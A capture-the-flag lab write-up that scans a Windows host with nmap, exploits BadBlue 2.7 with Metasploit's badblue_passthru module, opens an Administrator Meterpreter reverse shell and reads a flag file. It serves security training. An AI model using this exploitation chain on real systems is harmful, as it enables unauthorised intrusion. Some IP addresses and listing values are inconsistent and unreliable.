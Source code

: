 # Windows: File and Keylogging

## Mission

Metasploit is one of the most popular pentesting tools. With features such as migrating into other processes, keylogging, etc it makes windows exploitation particularly easy. 

In this lab exercise, you are provided with GUI access to the attacker machine and the windows target machine. This allows you to experience the perspective of both the attacker and the victim at the same time. 

Your task is to exploit the application using an appropriate Metasploit module and complete the below-mentioned objectives. 

###  Objective 

Retrieve the flag. 
Create a file on the desktop which contains the text "You have been Hacked"
From the Metasploit session, open the file in notepad on the target machine.
Use the keylogger to log the commands typed on the victim machine. 

### Instructions

Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y.
The IP address of the target machine is mentioned in the file “/root/Desktop/target”
Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1

## Notes

- **Target IP Address:** 10.4.25.43
- **eth1:** 10.10.0.5
- **eth0:** 10.1.1.5

## nmap (sudo nmap -vv -T4 -sC -sV 10.4.25.43)

    root@attackdefense:~# sudo nmap -vv -T4 -sC -sV 10.4.25.43

    Discovered open port 445/tcp on 10.4.25.43
    Discovered open port 3389/tcp on 10.4.25.43
    Discovered open port 139/tcp on 10.4.25.43
    Discovered open port 80/tcp on 10.4.25.43
    Discovered open port 135/tcp on 10.4.25.43
    Discovered open port 49153/tcp on 10.4.25.43
    Discovered open port 49152/tcp on 10.4.25.43
    Discovered open port 49155/tcp on 10.4.25.43
    Discovered open port 49163/tcp on 10.4.25.43
    Discovered open port 49154/tcp on 10.4.25.43

    PORT      STATE SERVICE            REASON          VERSION
    80/tcp    open  http               syn-ack ttl 125 BadBlue httpd 2.7
    | http-methods: 
    |_  Supported Methods: HEAD
    135/tcp   open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
    139/tcp   open  netbios-ssn        syn-ack ttl 125 Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds       syn-ack ttl 125 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
    3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 125
    | ssl-cert: Subject: commonName=WIN-OMCNBKR66MN
    | Issuer: commonName=WIN-OMCNBKR66MN
    | Public Key type: rsa
    | Public Key bits: 2048
    | Signature Algorithm: sha256WithRSAEncryption
    | Not valid before: 2022-04-04T02:28:05
    | Not valid after:  2022-10-04T02:28:05
    | MD5:   c858 07b1 79e9 0841 fbd1 dbd5 8262 1523
    | SHA-1: c7c0 939f 7fe9 cea5 e551 cf79 583f 1cd0 c42b 4058
    | -----BEGIN CERTIFICATE-----
    | MIIC4jCCAcqgAwIBAgIQOpmAovBY1IVMy6/cGIEBBjANBgkqhkiG9w0BAQsFADAa
    | MRgwFgYDVQQDEw9XSU4tT01DTkJLUjY2TU4wHhcNMjIwNDA0MDIyODA1WhcNMjIx
    | MDA0MDIyODA1WjAaMRgwFgYDVQQDEw9XSU4tT01DTkJLUjY2TU4wggEiMA0GCSqG
    | SIb3DQEBAQUAA4IBDwAwggEKAoIBAQDIjjxFZHu9dPAqaETsTehjezc/p5IgG6gZ
    | oqSPvQgSG73LzRNiuOv8jsvNk0w8h1+SDhED5TfaqO9dnGQIVNLeYSM4kNZXmf6c
    | H7ymKXoTekldJE7il84PRqRPVqC9EHAYVQhqldEaLR8lA8eFPNjEdk0g1z18esWB
    | sLHFEiDFo3tZ1roPxgb11H5WZwHLNmAnYYamtSSJcQuvgPBaJDiKtS1HTiWAKwkY
    | DPUOJaIt6zbLPl1abeuKBXaxfvTAWHORaVxvTUMJ3ZvYMySQvdwxO2aBLGMoCEDS
    | 3KPDjm1K56nhiGCJzubwXv0Rlbg4O7IonUdi7goocSC2njB3WRSVAgMBAAGjJDAi
    | MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsF
    | AAOCAQEAaNUwB01WK2B1msmM6aefTNKJJhnWAkgtDsS9fPun3YgjjSDNnLadwhNp
    | tC6r9jjcKXxYLRBq//+emhnUyJU7VWxBs8Qek1//Y93qDRZ87XEq7syvQ+4+YmY3
    | 7vRNaTduxjgCHsu+BHbOlVunBWMuZMaUxwjZT5Rbr1+Dddl2rYo5uPuUT+cJYO5o
    | APJDUdSVbkdac1LK1wcNaGza6z66uxsZnChfKS00x9ZGJmrQpfcFcjtXwqh5+fxC
    | FrcZa3ROay+1NCUx7l115LmfFTGYQfEpZINFCA+xhE1jgsa/bIe9sx10nVUMPv8C
    | NpMynCDXnf81HYws8hZ/xb3Dwm1d+g==
    |_-----END CERTIFICATE-----
    49152/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
    49153/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
    49154/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
    49155/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
    49163/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
    Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_clock-skew: mean: 0s, deviation: 0s, median: -1s
    | p2p-conficker: 
    |   Checking for Conficker.C or higher...
    |   Check 1 (port 57942/tcp): CLEAN (Couldn't connect)
    |   Check 2 (port 38907/tcp): CLEAN (Couldn't connect)
    |   Check 3 (port 49156/udp): CLEAN (Timeout)
    |   Check 4 (port 44728/udp): CLEAN (Failed to receive data)
    |_  0/4 checks are positive: Host is CLEAN or ports are blocked
    | smb-security-mode: 
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2022-04-05 08:05:43
    |_  start_date: 2022-04-05 07:57:59


## MSFCONSOLE windows/http/badblue_passthru

    msf5 exploit(windows/http/badblue_passthru) > info

        Name: BadBlue 2.72b PassThru Buffer Overflow
        Module: exploit/windows/http/badblue_passthru
    Platform: Windows
        Arch: 
    Privileged: Yes
        License: Metasploit Framework License (BSD)
        Rank: Great
    Disclosed: 2007-12-10

    Provided by:
    MC <mc@metasploit.com>

    Available targets:
    Id  Name
    --  ----
    0   BadBlue EE 2.7 Universal
    1   BadBlue 2.72b Universal

    Check supported:
    No

    Basic options:
    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
    RHOSTS   10.4.19.179      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
    RPORT    80               yes       The target port (TCP)
    SSL      false            no        Negotiate SSL/TLS for outgoing connections
    VHOST                     no        HTTP server virtual host

    Payload information:
    Space: 750
    Avoid: 15 characters

    Description:
    This module exploits a stack buffer overflow in the PassThru 
    functionality in ext.dll in BadBlue 2.72b and earlier.

    References:
    https://cvedetails.com/cve/CVE-2007-6377/
    OSVDB (42416)
    http://www.securityfocus.com/bid/26803

## MSFCONSOLE Exploit

    msf5 exploit(windows/http/badblue_passthru) > exploit

    [*] Started reverse TCP handler on 10.4.25.43:4444 
    [*] Trying target BadBlue EE 2.7 Universal...
    [*] Sending stage (180291 bytes) to 10.4.19.179
    [*] Meterpreter session 1 opened (10.4.25.43:4444 -> 10.4.19.179:49240) at 2022-04-05 07:47:22 +0530

    meterpreter > getuid
    Server username: Server username: WIN-OMCNBKR66MN\Administrator

## Treasure

    meterpreter > cd /
    meterpreter > dir
    Listing: C:\
    ============

    Mode                 Size                Type  Last modified                    Name
    ----                 ----                ----  -------------                    ----
    40777/rwxrwxrwx      0                   dir   2020-08-12 09:43:47 +0530        $Recycle.Bin
    100666/rw-rw-rw-     1                   fil   2013-08-22 21:16:48 +0530        BOOTNXT
    40777/rwxrwxrwx      0                   dir   2013-08-22 20:18:41 +0530        Documents and Settings
    40777/rwxrwxrwx      0                   dir   2013-08-22 21:09:30 +0530        PerfLogs
    40555/r-xr-xr-x      4096                dir   2013-08-22 19:06:16 +0530        Program Files
    40777/rwxrwxrwx      4096                dir   2013-08-22 19:06:16 +0530        Program Files (x86)
    40777/rwxrwxrwx      4096                dir   2013-08-22 19:06:16 +0530        ProgramData
    40777/rwxrwxrwx      0                   dir   2020-09-05 09:16:25 +0530        System Volume Information
    40555/r-xr-xr-x      4096                dir   2013-08-22 19:06:16 +0530        Users
    40777/rwxrwxrwx      24576               dir   2013-08-22 19:06:16 +0530        Windows
    100444/r--r--r--     398356              fil   2013-08-22 21:16:48 +0530        bootmgr
    100666/rw-rw-rw-     32                  fil   2020-09-16 14:31:09 +0530        flag.txt
    402211620/rw--w----  300329934679736303  fif   9526081072-11-03 07:52:56 +0530  pagefile.sys

    meterpreter > cat flag.txt
    70a569da306697d64fc6c19afea37d94
    